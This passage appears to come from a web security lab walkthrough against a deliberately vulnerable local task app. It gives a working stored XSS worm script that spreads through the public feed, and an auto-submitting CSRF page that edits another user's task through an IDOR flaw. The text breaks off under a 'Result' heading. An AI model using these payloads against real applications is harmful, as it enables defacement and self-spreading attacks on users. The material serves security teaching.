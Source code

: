 **Goal:** Chain the stored XSS with BAC so any victim who views the feed unknowingly propagates the payload.

### Steps

1. Use Module 8 to make a victim task public.
2. Edit that task and replace the title with:

   ```html
   <script>
   fetch('/edit/42', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'title=' + encodeURIComponent('Worm!') + '&public=on'
   });
   fetch('/', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'title=Worm+propagation&public=on'
   });
   </script>
   ```

3. View `/feed` in another browser. The script runs for any logged-in viewer, adding more worm tasks. Replace `42` with the victim task ID you discovered.

### Result

* A single malicious edit can spread automatically, showcasing combined impact of stored XSS + BAC.

---

## 11) CSRF + IDOR Chain

**Goal:** Build an external page that tricks an authenticated victim into editing someone else’s task on your behalf.

### Steps

1. Identify a target task ID (e.g., `37`).
2. Create a file `csrf-idor.html` with:

   ```html
   <!doctype html>
   <form action="http://127.0.0.1:5000/edit/37" method="POST" id="steal">
     <input name="title" value="CSRF defacement">
     <input name="public" value="on">
   </form>
   <script>steal.submit();</script>
   ```

3. Send the link to a logged-in victim. When they open it, their browser submits the form.

### Result
